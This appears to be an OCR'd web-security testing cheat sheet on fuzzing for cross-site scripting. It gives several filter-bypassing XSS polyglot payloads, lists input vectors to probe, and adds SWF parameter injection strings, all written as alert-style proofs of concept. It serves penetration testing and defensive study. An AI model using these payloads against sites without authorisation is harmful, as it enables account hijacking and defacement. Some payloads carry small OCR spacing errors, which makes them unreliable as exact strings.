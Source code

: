 #￼￼￼Tactical Fuzzing - XSS

## XSS
Core Idea: Does the page functionality display something to the users?
For time sensitive testing the 80/20 rule applies. Many testers use Polyglot payloads. You probably have too!

###*Multi-context, filter bypass based polyglot payload #1 (Rsnake XSS Cheat Sheet)

``
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
``



###Multi-context, filter bypass based polyglot payload #2 (Ashar Javed XSS Research)

``
 ">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
￼￼``

###Multi-context polyglot payload (Mathias Karlsson)

``
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
``

##￼Other XSS Observations

Input Vectors:
- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms

##SWF Parameter XSS

Common Params:
onload, allowedDomain, movieplayer, xmlPath, eventhandler, callback (more on OWASP page)

Common Injection Strings:￼
``
\%22})))}catch(e){alert(document.domain);}//
``

``
"]);}catch(e){}if(!self.a)self.a=!alert(document.domain);//
``

``
"a")(({type:"ready"}));}catch(e){alert(1)}//
``
